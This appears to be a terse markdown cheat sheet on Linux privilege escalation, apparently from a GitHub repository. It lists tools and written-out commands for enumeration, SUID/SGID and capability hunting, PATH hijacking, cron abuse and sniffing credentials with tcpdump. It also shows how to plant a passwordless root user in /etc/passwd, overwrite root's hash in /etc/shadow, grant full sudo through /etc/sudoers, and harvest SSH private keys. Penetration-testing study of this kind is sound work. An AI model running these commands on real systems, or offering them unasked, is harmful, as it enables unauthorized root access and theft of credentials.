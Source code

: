 # Linux Privilege Escalation

- [LinPEAS](https://github.com/carlospolop/PEASS-ng): automatically looks for privilege escalation vectors
- [pspy](https://github.com/DominicBreuker/pspy/releases): monitor processes
- [GTFOBins](https://gtfobins.github.io/): sudo, suid and capabilities
- metasploit: ``post/multi/recon/local_exploit_suggester``

## System enumeration

```
whoami
id
uname -a
ps aux | grep root
history
env
echo $PATH
cat /etc/passwd | grep "sh$"
find / -writable 2>/dev/null
dpkg -l
```

## SUDO, SUID and SGID

- ``sudo -l``: list commands the current user can run with sudo
- ``find / -perm -u=s -type f 2>/dev/null``: SUID
- ``find / -perm -g=s -type f 2>/dev/null``: SGID
- try path hijacking: ``export PATH=/tmp:$PATH``

## Capabilities

```
getcap -r / 2>/dev/null
```

## Cron Jobs

- domains: modify ``/etc/hosts``
- commands without setting the path
- wildcards
```
cat /etc/crontab
crontab -l

pspy
```

## Network

- ``ifconfig``
- ``netstat -tulpn``: open ports
- ``tcpdump``: sniff credentials

## Writable pasword files

#### /etc/passwd
```
echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
su - root2
```

#### /etc/shadow
1. ``python -c "import crypt; print crypt.crypt('NewRootPassword')"``
2. ``nano /etc/shadow``
3. Replace root's hash with the output that you generated
4. ``su root``

#### /etc/sudoers
```
echo "root ALL=(ALL:ALL) ALL" >> /etc/sudoers
sudo su
```

## SSH

```
find / -name id_rsa 2> /dev/null
```
1. Copy id_rsa contents of keys found with the above command
2. Create a local file on your box and paste the content in
3. ``chmod 600 id_rsa``
4. ``ssh -i id_rsa <user>@<ip>``
